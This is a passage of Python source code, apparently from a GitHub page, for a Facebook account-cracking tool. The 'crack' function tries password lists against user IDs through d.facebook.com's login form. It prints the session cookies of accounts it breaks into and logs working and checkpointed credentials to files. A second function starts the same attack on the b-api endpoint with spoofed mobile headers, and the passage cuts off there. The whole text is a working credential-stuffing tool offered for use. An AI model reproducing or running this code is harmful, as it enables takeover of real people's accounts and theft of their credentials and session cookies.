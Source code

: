 # Crack D.Facebook.Com
def crack(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s Ok:-%s - Cp:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://d.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "d.facebook.com", "referer": "https://d.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://d.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://d.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fd.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[Ok] %s|%s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s|%s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[Cp] %s|%s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s|%s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack B-api.Facebook.com
def api(ids, uid, pwx):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s Ok:-%s - Cp:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': ua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}